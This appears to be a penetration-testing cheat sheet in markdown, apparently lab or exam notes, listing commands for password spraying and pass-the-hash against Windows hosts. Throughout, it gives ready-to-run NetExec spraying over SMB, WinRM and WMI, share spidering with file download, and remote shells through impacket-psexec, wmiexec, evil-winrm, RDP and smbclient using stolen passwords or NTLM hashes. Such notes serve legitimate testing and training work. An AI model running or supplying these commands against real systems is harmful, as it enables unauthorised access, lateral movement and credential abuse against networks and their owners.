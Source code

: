 ### Password

prepare for dictionary

```jsx
//219 => 216
sed -i 's/219/216/g' machine.txt
```

Spray password

```jsx
nxc  smb machines.txt -u user.txt -p pass.txt
nxc  smb 172.16.1.1 -u 'user' -p 'pass' --shares
nxc  smb 172.16.1.1 -u 'user' -p 'pass' -M spider_plus -o DOWNLOAD_FLAG=True
nxc winrm 192.168.1.1  -u user.txt -H crack --no-bruteforce --continue-on-success

//non domain user
nxc winrm 10.10.111.1 -u user.txt -p pass -d MS02

impacket-psexec dave@172.16.1.1
//specify domain name for administrator
impacket-psexec fake.com/Administrator:"pass\$"@172.16.1.1
impacket-wmiexec fake.com/Administrator:"pass\!0rd\$"@172.16.1.1

//port 135
nxc wmi 172.16.1.1 -u user.txt -p pass.txt
impacket-wmiexec fake.com/Administrator:"pass\!0rd\$"@172.16.1.1
```

### NTLM Hash

Spary NTLM hash

```jsx
//test smb(139,445),wmi(135),rdp(3389),winrm(5985)
nxc smb 10.10.1.1 -u bob.alice -H e728ecbbbbbbbbbbbbbb
//spray local
nxc winrm 10.10.1.1 -u user.txt -p passW0rd -d ms02
evil-winrm -i 10.10.1.1 -u bob.alice -H e728ecbbbbbbbbbbbbbb
xfreerdp /v:192.168.1.1 /u:resourced.local/L.Livingstone /pth:19a3a7550ce8c505c2d46b5e39d6f808 +clipboard +drive:share,/tmp
```

Passing NTLM

```jsx
smbclient \\\\192.168.1.1\\secrets -U Administrator --pw-nt-hash e728ecbbbbbbbbbbbbbb

//specify domain name for administrator
impacket-psexec -hashes :e728ecbbbbbbbbbbbbbb skylark.com/Administrator@10.10.1.1
impacket-wmiexec -hashes :e728ecbbbbbbbbbbbbbb skylark.com/Administrator@10.10.1.1

evil-winrm -i 10.10.1.1 -u bob.alice -H e728ecbbbbbbbbbbbbbb
```
